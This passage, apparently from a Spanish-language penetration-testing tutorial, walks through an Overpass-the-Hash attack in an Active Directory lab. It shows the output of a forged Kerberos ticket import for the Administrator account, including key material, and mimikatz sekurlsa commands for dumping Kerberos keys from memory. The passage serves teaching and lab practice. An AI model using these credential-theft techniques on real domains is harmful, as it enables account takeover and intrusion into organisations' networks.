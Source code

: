 ```
qbwCOh1p7j/UmBz/inaOBpt9vg/VYWwHcip3u4rql2pZjqOodxTOn/Lyg+vddCLYK8hjxfUQc3mW3H3P
9FSH+r0MW7KWwep1meKGTzjn4HcpMfYPh1+nZ0DPwyyPIExXFZbPKeh2k8Ie9IXTDpUtrmWRlvoX9cos
SLUEoaUDq8Ylccy8GT2l1NJQZqf9rVM6LNuVlxG4aLAUACzHp/D1tu2qs2h77/ZiImQ4Ld0Lgb6zcWzm
gj3g/Kpr9XUvlOHR3u50fIA2CLUjFHC5SPpWBpwsPSiydfowhE4lGOKE6NIOcjWhU4jtW6b7sL5oGhSs
OiPWqYNyF7VvLUAXv2P6D6sKs/fQBjgYvgouCESIUfIBsCZVESUWCH9PbY26Cn+5DxqQeWg03h0Am8S+
SOLByiKVQODj8xFxM9ZnXiLyEdlFfXSsfutV+RGplLlHfYL4dzL9DrNS0hdeWLF3WAfJA9YYTMg41zJQ
vr35xj3dJJ/lwCgtgwO3wY31i+GaC0Yz6IzCg2R4B/133+XqC/URMssbvEbO4I83496QoYJ+lx5A357C
Vpfl0v85oAZSEuGGuBild2M88hFds4ho++5dvLbdH6DoNZoGE4mX/OxkVDSyWGkNcGi08bLEBGbr8uQ5
JpG8a2ZpJL0pmvg4o4HVMIHSoAMCAQCigcoEgcd9gcQwgcGggb4wgbswgbigGzAZoAMCARehEgQQcG/p
D+0SN9AsGx9DRxq8qaEMGwpDT1JQLkxPQ0FMohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUA
QOEAAKURGA8yMDI1MDEyMTA5MTcyMFqmERgPMjAyNTAxMjExOTE3MjBapxEYDzIwMjUwMTI4MDkxNzIw
WqgMGwpDT1JQLkxPQ0FMqR8wHaADAgECoRYwFBsGa3JidGd0Gwpjb3JwLmxvY2Fs
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/corp.local
  ServiceRealm             :  CORP.LOCAL
  UserName                 :  Administrator (NT_PRINCIPAL)
  UserRealm                :  CORP.LOCAL
  StartTime                :  21/01/2025 10:17:20
  EndTime                  :  21/01/2025 20:17:20
  RenewTill                :  28/01/2025 10:17:20
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  cG/pD+0SN9AsGx9DRxq8qQ==
  ASREP (key)              :  A87F3A337D73085C45F9416BE5787D86
```

Y vemos que hemos obtenido perfectamente el `TGT` del usuario `Administrador`.

Todo este proceso se llama `Over PTH` por que estamos cogiendo el `hash NTLM` y lo utilizamos primero en el protocolo de autenticacion `NTLM` que es donde debe utilizarse, y hacemos un `over` lo volvemos a utilizar en este caso para el protocolo de autenticacion `kerberos`

Nosotros podremos listar de la misma forma que lo hacemos con los `hashes NTLM` las claves que estan inyectadas en memoria de `kerberos` con la herramienta `mimikatz`:

Ejecutaremos `mimikatz`:

```powershell
sekurlsa::
```

Nos aparecera el `help` del comando y nos interesaran estas opciones:

```
		   tickets  -  List Kerberos tickets
           ekeys  -  List Kerberos Encryption Keys
```

Por lo que haremos lo siguiente:

```powershell
sekurlsa::ekeys
```

Info:
